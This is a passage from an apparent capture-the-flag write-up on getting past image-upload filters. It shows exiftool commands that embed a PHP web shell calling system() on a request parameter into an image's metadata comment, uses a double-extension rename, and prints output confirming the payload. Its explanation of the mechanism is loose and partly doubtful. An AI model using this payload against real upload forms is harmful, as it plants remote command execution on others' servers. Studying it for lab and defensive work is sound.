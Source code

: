 We ticked the first 2 boxes. Now, we must find how we can make the target execute code with an image file.

Just changing the file extension is not enough. But while googling everything about hiding a reverse shell code in an image, you will find a lot of information and hopefully read about **`exiftool`**.    
[ExifTool](https://github.com/exiftool/exiftool) is a customizable set of Perl modules plus a full-featured
command-line application for reading and writing meta information in a wide
variety of files including image files.

As an example, googling "bypass upload image file shell code" you may find this Github repo useful: [https://github.com/xapax/security/blob/master/bypass_image_upload.md](https://github.com/xapax/security/blob/master/bypass_image_upload.md)    
As writen in this repo, you can use the following command to embed php code in an image: **`exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg`**, and then rename the file _**lo.jpg**_ to _**lo.php.jpg**_

What did happen here ? I didn't go in deep details of this mechanism, but here is what I know.     
PHP has a function called "exif_read_data" which allows it to read the header data of image files. It is used extensively in many different plug-ins and tools. It is not an exploit but a feature.      
In this case, the php code is writen in the comment section of the exif header where metadata can be stored. It is then executed when trying to display the image.
It's a kind of magic but it works well. Let me show you.

Let's give it  try with a random image _**"myimage.png"**_
~~~
root@kali:~# exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' myimage.png
    1 image files updated
root@kali:~/Documents/results/10.10.10.185/exploit# mv myimage.png myimage.php.png
~~~

Now, see the comment section (it does not work if not renamed):
~~~
root@kali:~# exiftool myimage.php.png
ExifTool Version Number         : 12.04
File Name                       : myimage.php.png
Directory                       : .
File Size                       : 1174 kB
File Modification Date/Time     : 2020:08:21 18:58:49+02:00
File Access Date/Time           : 2020:08:21 19:01:23+02:00
File Inode Change Date/Time     : 2020:08:21 19:01:09+02:00
File Permissions                : rwxrwxrwx
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 976
Image Height                    : 548
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Adam7 Interlace
Pixels Per Unit X               : 3780
Pixels Per Unit Y               : 3780
Pixel Units                     : meters
Comment                         : <?php system($_REQUEST[cmd]); ?>
Image Size                      : 976x548
Megapixels                      : 0.535
~~~
